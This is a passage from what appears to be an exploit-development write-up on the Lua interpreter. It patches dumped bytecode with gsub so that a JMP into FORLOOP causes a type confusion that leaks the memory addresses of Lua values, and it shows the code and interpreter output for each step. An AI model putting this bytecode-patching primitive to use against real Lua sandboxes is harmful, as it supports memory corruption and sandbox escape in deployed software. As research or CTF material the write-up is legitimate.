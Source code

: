 We will patch it with a JMP 1. by doing so, the flow will jump to the
FORLOOP instruction, which will add to the index the value of the *x* step
parameter. This way, by leveraging the type confusion, the returned
index will contain the address of the TValue passed as input.

The next step is to assemble the target instruction:

```lua
# Code
print(string.format("%4x", asm("JMP", 1, 0)))

# Output
80000038
```

And we can then verify that the patching works as expected:

```
# Code
asnum = load(string.dump(function(x)
    for i = 0, 1000000000000, x do return i end
end):gsub("\xca\x80\0\0", "\x38\0\0\x80"))

print(bytecode(asnum))

# Output
function <(string):1,3> (7 instructions at 0x10df28)
1 param, 5 slots, 0 upvalues, 5 locals, 1 constant, 0 functions
	1	7fff8081	[2]	LOADI    	1 0
	2	00000103	[2]	LOADK    	2 0	; 1000000000000
	3	00000180	[2]	MOVE     	3 0
	4	80000038	[2]	JMP      	1	; to 6 <--- PATCHING WORKED!
	5	00020248	[2]	RETURN1  	4
	6	000100c9	[2]	FORLOOP  	1 2	; to 5
	7	000100c7	[3]	RETURN0  	
constants (1) for 0x10df28:
	0	1000000000000
locals (5) for 0x10df28:
	0	x	1	8
	1	(for state)	4	7
	2	(for state)	4	7
	3	(for state)	4	7
	4	i	5	6
upvalues (0) for 0x10df28:
```

### Leak Denied

By trying to leak a TValue result with the type confusion,
something is immediately off:

```
# Code
asnum = load(string.dump(function(x)
    for i = 0, 1000000000000, x do return i end
end):gsub("\xca\x80\0\0", "\x38\0\0\x80"))

foo = function() print(1) end
print("foo:", foo)

print("leak:",asnum(foo))

# Output
foo:	LClosure: 0x10a0c0
leak:     <--- OUTPUT SHOULD NOT BE NULL!
```
